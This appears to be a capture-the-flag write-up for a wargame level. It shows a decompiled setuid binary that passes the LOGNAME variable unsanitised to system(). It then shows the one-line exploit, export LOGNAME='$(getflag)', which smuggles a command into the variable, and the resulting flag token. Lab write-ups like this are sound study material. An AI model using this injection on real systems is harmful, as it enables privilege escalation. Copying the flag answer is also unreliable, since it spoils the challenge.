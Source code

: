 This one has been quite simple, with a ls we saw an exectuable file, we put it in ghidra that show us this : 

int main(int argc,char **argv,char **envp)

{
  char *pcVar1;
  int iVar2;
  char *buffer;
  gid_t gid;
  uid_t uid;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;
  
  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18,local_18,local_18);
  setresuid(local_14,local_14,local_14);
  local_1c = (char *)0x0;
  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);
  iVar2 = system(local_1c);
  return iVar2;
}

This is the intersting part : 

  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);
  iVar2 = system(local_1c);

  Just need to change our env with : export LOGNAME='$(getflag)'
  and we get :
./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
